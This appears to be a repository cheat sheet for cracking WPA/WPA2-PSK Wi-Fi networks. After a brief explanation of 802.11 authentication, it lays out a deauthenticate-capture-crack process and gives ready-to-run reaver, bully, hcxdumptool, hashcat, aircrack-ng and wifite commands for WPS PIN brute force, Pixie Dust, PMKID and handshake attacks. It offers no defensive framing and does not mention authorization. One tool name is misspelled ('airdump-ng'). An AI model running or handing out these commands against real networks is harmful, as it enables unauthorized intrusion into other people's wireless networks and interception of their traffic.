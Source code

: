 ## 802.11 Sniffing WPA/WPA2 with PSK
802.11 authentication is a process whereby the access point either accepts or rejects the identity of a radio NIC. The NIC begins the process by sending an authentication frame containing its identity to the access point. With open system authentication (the default), the radio NIC sends only one authentication frame, and the access point responds with an authentication frame as a response indicating acceptance (or rejection). Beacon frames are transmitted periodically to announce the presence of a wireless network and contain all information about it(data rates, channels, security ciphers, key management, etc.).

WPA/WPA2 Attack Process:

    1. Start and Deauthenticate with WPA/WPA2 Protected WLAN client by using WLAN tools.
    2. If the client is Deaauthenticated, then sniff the traffic and check the status of the captured EAPOL Handshake.
    3. If the client did not Deauthenticate then do it again.
    4. Check whether the EAPOL handshake is captured or not.
    5. Once you captured the EAPOL handshake, then perform a PSK Dictionary attack using coWPAtty and 
       Aircrack-ng to gain confidential information.
       
    6. Add time-memory trade-off method (Rainbow tables) also known as WPA-PSK Precomputation attack for cracking WPA/2 passphrase.
    7. If the client failed then deauthenticate again and try to capture and redo the above steps.

WPS PIN Attack:
    Known PINs + Generation Algorithms
      $ airgeddon.sh (Known PINs database based attack)
  
    WPS PIN Bruteforce (online)
      $ reaver -i mon0 -b <MAC_AP> -c <channel> -f -N [-L -d 2] -vv
      $ bully mon0 -b <MAC_AP> -c <channel>  -S -F -B -v 3
  
    WPS Pixie Dust Attack (offline)
      $ reaver -i mon0 -b <MAC_AP> -c <channel> -K -N -vv
      $ bully mon0 –b <MAC_AP> -d -v 3
  
    Null PIN attack
      $ reaver -i mon0 -b <MAC_AP> -c <channel> -f -N -g 1 -vv -p ''

  All above commands can be automated using: wifite --wps-only [--bully]

PMKID Capture (client-less) & Cracking:
      $ hcxdumptool -i mon0 -o capture.pcapng --enable_status=1 -c <channel>
      $ hcxpcaptool -E essidlist -I identitylist -U usernamelist -z capture.16800 capture.pcapng
      $ hashcat -m 16800 capture.16800 -a 0 -w 4 <wordlist>

  All above commands can be automated using: wifite --pmkid [--pmkid-timeout <sec>]

Handshake Capture (req. client) & Cracking:
      $ airdump-ng -c <channel> --bssid <AP_MAC> -w <capture> mon0
      $ aircrack-ng -a 2 -b <AP_MAC> -w  <wordlist> <capture>
      
  All above commands can be automated using: wifite --wpa [-dict <wordlist>]  
